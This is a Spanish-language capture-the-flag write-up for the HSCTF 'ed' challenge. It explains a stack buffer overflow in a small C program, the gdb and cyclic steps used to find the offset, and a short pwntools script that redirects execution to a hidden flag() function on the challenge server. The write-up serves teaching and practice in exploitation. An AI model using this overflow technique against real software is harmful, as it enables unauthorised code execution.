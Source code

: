 # Enunciado
![Imagen01](01.png)

# Resolución

Nos proporcionan el siguiente código (chall.c) y su binario correspondiente (ed):
~~~
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int flag() {
	puts(getenv("FLAG"));
}

int main(int argc, char** argv) {
	char input[24]; 
	char filename[24] = "\0";
	char buffer[64];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
	while (1) {
		fgets(input, 64, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}

				while (fgets(buffer, 64, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
}
~~~
En el mismo tenemos la fúnción `int flag()` que imprime la flag pero que nunca es llamada en el código, por lo que podemos tratar de obtener la dirección en la que se encuentra dicha función y modificar de alguna forma el flujo de programa para que se ejecute.

Primero, ejecutamos gdb-gef con el binario 'ed':

![](05.png)

y buscamos la dirección de memoria de la función *flag()*. Lo hacemos con el comando ´print &flag´

![](07.png)

Obtenemos la dirección **0x4011d2**

Ahora debemos de comprobar si el código ejecutable ha sido compilado sin alguna de las protecciones que impiden el desbordamiento de buffer. Lo hacemos con checksec:

![](02.png)

Vemos que no tiene la protección *Stack Canary* ni *PIE* por lo que en principio parece vulnerable a desbordamientos de pila.

> Un **stack canary** es un valor de seguridad colocado en la pila justo antes de la dirección de retorno en una función. Este valor se elige de forma aleatoria al inicio de la ejecución del programa y se verifica al finalizar la función antes de que se produzca el retorno. Si el valor del canary se ha modificado, se asume que ha ocurrido un desbordamiento de búfer y el programa puede tomar medidas para prevenir un posible ataque como terminar abruptamente la ejecución, generar una excepción o informar del intento de ataque.

> Las **protecciones PIE** (Position Independent Executable) son técnicas de seguridad que hacen que el código y los datos de un programa se carguen en posiciones de memoria aleatorias cada vez que se ejecuta. Esto dificulta a los atacantes explotar vulnerabilidades de memoria, ya que no conocen de antemano la ubicación exacta de las estructuras de datos y funciones en el programa. 

Para conseguir el desbordamiento debemos de encontrar alguna forma de introducción de datos que permita que el programa se 'desborde'. Un desbordamiento generalmente se produce cuando un programa escribe más datos en un búfer de los que puede contener. 

En el código suministrado tenemos dos líneas que posibilitan un buffer overflow debido a la discrepancia en los tamaños de los búferes y la forma en que se maneja la entrada del usuario.

1. `char input[24];`: Aquí, se declara un array de caracteres `input` con un tamaño fijo de 24 bytes.

2. `fgets(input, 64, stdin);`: En esta línea, se utiliza la función `fgets` para leer hasta 64 caracteres de la entrada estándar (`stdin`) y almacenarlos en el búfer `input`. Sin embargo, como se definió que `input` solo tiene espacio para 24 bytes, si el usuario ingresa más de 23 caracteres (más el carácter nulo de terminación), esto resultará en un buffer overflow. Esto es porque `fgets` tratará de escribir más datos en `input` de los que puede contener de manera segura.


Ejecutándolo en local vemos que efectivamente al introducir una cadena larga y luego pulsar 'Q', obtenemos el desbordamiento de buffer que estamos buscando:

![](03.png)

Vamos a utilizar el comando 'cyclic' de 'pwntools' para generar una cadena con un patrón conocido, luego la editaremos para añadir una 'Q' en la siguiente línea, es decir, replicamos en un fichero de texto la entrada con la que hemos conseguido el buffer overflow pero con un patrón de texto conocido que después podemos ubicar en memoria al ejecutarlo con una herramienta como 'gdb'

![](04.png)

Para ejecutar el programa desde dentro de gdb con el fichero de texto generado, debemos de utilizar el comando ´r< cadena.txt´, obteniendo la siguiente salida:

![](09.png)

En este caso nos interesa poder sobreescribir el stack pointer (registro **rsp**) que apunta a la cima de pila para ubicar en él la dirección de la función flag().

Para ello podemos usar la herramienta cyclic de nuevo para determinar exactamente en qué parte de la cadena de caracteres se encuentra "kaaalaaamaaanaaaoaaapaa" que es la parte que sobrescribió el stack pointer. Sabiendo la posición de dicha cadena en la cadena original tendremos el offset en el que necesitamos escribir la dirección 0x4011d2, que es la de la función flag().

![](08.png)

Obtenemos un offset de 40.

Con todos estos datos, generamos un pequeño programa en python utilizando la librería *pwntools*

~~~
from pwn import *

conexion = remote("ed.hsctf.com", 1337)
offset = 40
direccion_funcion_flag = p64(0x4011d2)
conexion.sendline(b'a'*offset + direccion_funcion_flag)
conexion.recv()
conexion.sendline(b'Q')
print(conexion.recv())
~~~
Donde:  

 - `conexion = remote("ed.hsctf.com", 1337)`: Establece una conexión al servidor remoto.
 - `direccion_funcion_flag = p64(0x4011d2)`: Convierte la dirección hexadecimal 0x4011d2 en una cadena de 8 bytes (64 bits) utilizando la función `p64`. 
 - `conexion.sendline(b'a'*offset + direccion_funcion_flag)`: Envía una cadena al servidor que consta de 40 caracteres 'a' seguidos de la dirección de la función que queremos ejecutar, sobrescribiendo la dirección de retorno en la pila con la dirección de la función que queremos ejecutar.
 - `conexion.recv()`: Se recibe y descarta cualquier respuesta del servidor. Necesario para que el programa remoto procese completamente la entrada anterior.
 - `conexion.sendline(b'Q')`: Envía el carácter 'Q' al servidor. Esto provoca que el programa remoto retorne, provocando que salte a la dirección de la función que hemos inyectado en la pila.
 - `print(conexion.recv())`: Recibe y luego imprime la respuesta final del servidor.

Lo ejecutamos y conseguimos la bandera:

![](10.png)


 
**Autor:** [Andr3sdelRio](https://twitter.com/Andr3sdelRio) 

- [URL original del reto](https://ctf.hsctf.com/challs). *Disclaimer:Probablemente offline después de finalizar la competición* 
 

